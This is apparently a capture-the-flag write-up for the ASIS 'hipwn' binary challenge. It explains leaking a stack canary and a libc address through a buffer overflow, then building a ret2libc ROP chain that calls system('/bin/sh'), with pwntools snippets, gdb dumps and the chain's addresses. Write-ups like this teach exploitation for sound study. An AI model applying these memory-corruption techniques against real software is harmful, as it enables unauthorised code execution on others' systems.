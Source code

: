 # hipwn
## ASIS
The ASIS ctf is a hard CTF, rating 89,8 on CTF time, it is among the top weighted CTFs right now.

##Initial inspection
We are handed out a Dockerfile and a folder with the vulnerable binary.

A `checksec` of the provided binary shows full protection. Which means, that we most likely are looking at a ROP challenge.
```bash
checksec --file==./orig_chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   42 Symbols        No    0               1               ./orig_chall
```
A brief look in IDA shows that it is a buffer underflow vulnerability:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int nbytes; // [rsp+Ch] [rbp-54h] BYREF
  char nbytes_4[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  while ( 1 )
  {
    puts("How much???");
    __isoc99_scanf("%u", &nbytes);
    puts("ok... now send content");
    read(0, nbytes_4, nbytes);
    nbytes_4[nbytes] = 0;
    puts(nbytes_4);
    puts("wanna do it again?");
    __isoc99_scanf("%u", &nbytes);
    if ( nbytes != 1337 )
      break;
    puts("i knew it");
  }
  return 0;
}
```
We can from the decompiled source code see, that we control the amount of data to read in. The code then stores the data in a buffer of 72 bytes (`char nbytes_4[72];`)

The binary also imports  libc, which is great, becasu it enables us to utilize many more gadgets - ret2libc.

# Getting the correct libc
In order to find correct gadget addresses for our exploit, we need to get the version of libc that the server uses, thankfully ASIS provided us with the Dockerfile of the challenge which have a very specific build tag, allowing us to replicate the state of the server:
```bash
FROM ubuntu@sha256:aabed3296a3d45cede1dc866a24476c4d7e093aa806263c27ddaadbdce3c1054
docker build .
```
Now we can get the libc.so + the corresponding linker/loader from the provided docker image:
```bash
docker cp temp_container:/lib/x86_64-linux-gnu/libc.so.6 ./libc.so.6
docker cp temp_container:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 ./ld-linux-x86-64.so.2
```
I had some problems copying the files as some were symlinks to the files in /lib, this should work, however. Now, we need to make GDB run the program as the server would. First, we need to path binary to use correct interpreter:
```bash
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./chall
```
We also need to specify which libc.so we want to use, we do this by creating the process like this in our exploit script:
```bash
process([context.binary.path], env={'LD_PRELOAD': './libc.so.6'})
```

## Creating the exploit
### Canary leakage
First obstacle is the stack canary which, if overwritten, will cause the program to exit. Luckily we have an underflow in the program, which we can use to leak stack canary in order to use it in our exploit payload later on. We start by doing a cyclic pattern to figure out, what the offset to our canary is:
```bash
0x7fff5b4e2a90: 0x0000000000000000      0x0000005000000000
0x7fff5b4e2aa0: 0x6161616261616161      0x6161616461616163
0x7fff5b4e2ab0: 0x6161616661616165      0x6161616861616167
0x7fff5b4e2ac0: 0x6161616a61616169      0x6161616c6161616b
0x7fff5b4e2ad0: 0x6161616e6161616d      0x616161706161616f
0x7fff5b4e2ae0: 0x6161617261616171      0x4baa9c6156f32c0a
0x7fff5b4e2af0: 0x0000000000000001      0x00007feaa7a29d90
0x7fff5b4e2b00: 0x0000000000000000      0x000055df56a2a1c9
0x7fff5b4e2b10: 0x0000000100000000      0x00007fff5b4e2c08
```
We can see that `0x6161617261616171` is just before the canary, actually overwriting the last bit with an a, this is perfect because stack canaries are always null terminated ending on 00, which is usually how to spot them. These bytes correspond to `aaaraaaq` looking at the pattern. From cyclic(100) in gdb or pwntools, we can see that this sequence occurs after 72 bytes. So this is where the canary starts, we need to overflow the last part of the canary and leak the rest, overflowing it is very important, otherwise puts() won't print it out, as it stops printing the memory at the first 00 it encounters.

After leaking the canary we can go again by typing 1337, we can do this with an overwritten canary because no stack frames are popped, because we're still in the main function in a while loop.

### Finding libc base dynamically
Because PIE is enabled, the binary, and libc as well, will get a new address on each execution. Therefore, we need to figure out in which address libc was loaded, from this base, we know the offset to our gadgets.

Looking at the stack is a good place to start, since we can easily leak addresses from there. The address starting with 7f is obviously loaded a different place than the address of the binary starting with 55. But to double check we can always use vmmap in gdb to debug.

Leaking the libc function is exactly the same way as with the canary, we still make sure to overwrite any 00 bytes. When disassembling the memory around the leaked address, we see that it is actually 0x90 into this function:
```c
0x7feaa7a29d00 <__libc_init_first>:  endbr64
```
I don't now this function, but it will do just fine to determine the libc base. We just subtract the offset that we know from the leaked address:
```python
libc_base = libc_leak - libc.symbols['__libc_init_first']
```
### Ret to a shell
Now we need to find ROP gadgets in libc: ret, system, bin/sh, exit, pop rdi(in order to get '/bin/sh' from the stack into rdi which is where the argument for system(arg) resides). This is easily done with pyelftools:
```python 
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0] + libc_base 
ret = rop.find_gadget(['ret'])[0] + libc_base 
bin_sh = next(libc.search(b'/bin/sh\x00')) + libc_base 
exit_addr = libc.symbols['exit'] + libc_base 
rop.raw([ret, pop_rdi, bin_sh, system_addr, exit_addr])
```
also added an exit to exit the binary gracefully, otherwise it would terminate our shell. Ret added to align the stack with 16 bytes. The resulting ROP chain looks something like this:
```bash 
0x0000:   0x7f618de29cd6
0x0008:   0x7f618de2a3e5
0x0010:   0x7f618dfd8698
0x0018:   0x7f618de50d60
0x0020:   0x7f618de455f0
```

Now the only thing left is to send the payload, consisting of the offset to canary padding, then the canary then overwrite rbp with some junk and lastly the ROP chain.

Once in the shell: `cat flag.txt`

NB: While this did not work locally, it worked on the remote.
